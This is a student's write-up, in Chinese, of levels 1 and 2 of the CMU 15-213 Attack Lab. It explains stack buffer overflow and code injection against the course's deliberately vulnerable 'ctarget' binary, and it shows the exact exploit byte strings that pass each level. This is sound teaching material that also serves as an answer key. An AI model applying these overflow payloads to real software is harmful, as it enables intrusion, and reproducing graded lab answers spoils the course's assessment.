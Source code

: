 ## attack lab

### ctarget 1

通过gdb可以观察到buffer的容量是多少，通过栈溢出，把最后的跳转地址覆盖成任务1的地址就可以，中间的数(栈内的)可以是任意的，不影响

```
fanzhipeng@LAPTOP-ILT6KOAH:~/work/cmu15213/attacklab$ ./ctarget -q < ctarget1raw
Cookie: 0x59b997fa
Type string:Touch1!: You called touch1()
Valid solution for level 1 with target ctarget
PASS: Would have posted the following:
        user id bovik
        course  15213-f15
        lab     attacklab
        result  1:PASS:0xffffffff:ctarget:1:00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 C0 17 40 00

```

### ctarget 2

我们还是想将返回值设置成target2 的地址，但是我们还需要额外的执行rdi = 2

所以我们需要将栈顶的返回地址覆盖成 执行rdi=2的地址，而执行rdi=2的地址可以是栈内(buffer容量内)的任意一处, 另外需要注意小端序的问题，

movq $cookie, %rdi 可以用gcc -c 生成汇编文件，然后objdump得到二进制格式。

```
fanzhipeng@LAPTOP-ILT6KOAH:~/work/cmu15213/attacklab$ ./ctarget -q < ctarget2raw
Cookie: 0x59b997fa
Type string:Touch2!: You called touch2(0x59b997fa)
Valid solution for level 2 with target ctarget
PASS: Would have posted the following:
        user id bovik
        course  15213-f15
        lab     attacklab
        result  1:PASS:0xffffffff:ctarget:2:48 C7 C7 FA 97 B9 59 C3 90 90 90 90 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 78 DC 61 55 00 00 00 00 EC 17 40 00

```



